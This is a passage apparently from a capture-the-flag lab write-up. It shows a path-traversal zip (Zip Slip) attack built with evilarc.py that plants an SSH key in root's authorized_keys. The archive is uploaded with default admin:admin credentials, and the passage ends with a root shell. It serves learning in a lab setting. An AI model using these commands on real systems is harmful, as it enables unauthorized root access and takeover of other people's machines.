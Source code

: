```
# cp /root/.ssh/id_rsa.pub authorized_keys
# python evilarc.py -f root.zip -o unix -p "../../../../../../root/.ssh" authorized_keys
Creating root.zip containing ../../../../../../../../../../../../../../root/.ssh/authorized_keys
# curl -u admin:admin -F 'data=@root.zip' http://10.10.10.101:8080/upload
```

I can now log in as root:

```
# ssh 10.10.10.101
Last login: Tue May  7 00:06:28 2019 from 172.20.0.1
root@Aogiri:~# id
uid=0(root) gid=0(root) groups=0(root)
```